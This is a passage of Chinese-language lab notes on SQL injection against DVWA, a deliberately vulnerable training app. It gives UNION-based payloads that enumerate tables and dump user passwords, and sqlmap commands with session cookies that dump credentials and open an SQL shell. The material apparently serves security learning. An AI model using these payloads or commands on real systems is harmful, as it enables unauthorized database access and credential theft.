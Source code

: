     **抓目前的DB** 
    `1' UNION SELECT 1,database()#`
    `table_schema,table_name FROM information_schema.tables`

    **列tables**: 
    `1' UNION SELECT 1, table_name FROM information_schema.tables where table_schema='dvwa'#`

    **列table的欄位**: 
    `1' UNION SELECT 1,column_name from information_schema.columns where table_name='users'#`

    **列user table的`user`&`password`**: 
    `1' UNION SELECT user, password from users#`
    ![](https://i.imgur.com/JPg258U.png)

* Sqlmap

    Technique指定`USE` - `Union` & `Stack` & `Error` Based

    ```bash!
    sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli/?id=w&Submit=Submit" -p "id" --cookie "PHPSESSID=n280j97vu4pl3kmv34naghl107; security=low" --threads 10 --dbms="Mysql" --technique=USE --os="Linux" --batch --banner
    ```

    抓基本資訊
    ```bash!
    --banner, --current-user, --current-db
    ```

    抓DB、表、欄位等資訊
    ```bash!
    --dbs, --tables, --columns
    ```

    Get desired columns from users table
    ```java
    -D dvwa -T users -C user, password --dump
    ```

    ![](https://i.imgur.com/wxtXQFX.png)

    彈sql-shell
    ```bash!
    sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli/?id=w&Submit=Submit" -p "id" --cookie "PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=low" --threads 10 --dbms="Mysql" --technique=USE --os="Linux" --sql-shell
    ```
    ![](https://i.imgur.com/rzUXEfy.png)

    Advanced Manual: `sqlmap -hh`
    
### Medium
前端有options限制，intercept request直接丟給後端
```bash!
sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli/" --method="POST" --data="id=1&Submit=Submit" --cookie="PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=medium" --technique=U --dbms="MySql" --os="Linux" -p "id" --threads 10 --batch --banner
```
![](https://i.imgur.com/a3TqohC.png)
